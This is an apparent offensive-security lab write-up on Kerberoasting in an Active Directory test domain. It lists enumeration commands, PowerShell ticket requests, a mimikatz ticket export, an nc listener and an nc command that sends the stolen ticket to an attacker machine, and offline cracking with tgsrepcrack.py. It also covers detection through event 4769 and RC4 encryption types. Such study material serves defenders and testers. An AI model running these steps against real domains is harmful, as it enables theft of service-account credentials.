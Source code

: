 ```yaml
---
description: Credential Access
---
```


# Kerberoasting

This lab explores the Kerberoasting attack - it allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account (i.e account used for running an IIS service) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

{% code title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage (quicker than `select-object`), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```
 setspn -T offense -Q */*
```

![](<../../.gitbook/assets/kerberoast-setspn (1).png>)

Attacker requesting a kerberos ticket (TGS) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` (from advanced Powershell logging) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` (23 decimal, meaning it's RC4 encrypted):

![](<../../.gitbook/assets/kerberoast-logs (1).png>)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` (TGS) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` (we initiated this attack from offense\spotless) which contains the encrypted (RC4) kerberos ticket (server part) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](<../../.gitbook/assets/kerberoast-tgs-res (1).png>)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.&#x20;

Creating a kerberos keytab file for use in wireshark:

{% code title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary (`Passw0rd`) initially gets converted into an NTLM (`K0`) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../.gitbook/assets/kerberoast-crackstation.png)

![](../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../.gitbook/assets/kerberoast.pcap" %}
kerberoast.pcap
{% endfile %}

## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin\(1\).pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="http://rc4.online-domain-tools.com/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}

{% embed url="https://medium.com/@jsecurity101/ioc-differences-between-kerberoasting-and-as-rep-roasting-4ae179cdf9ec" %}
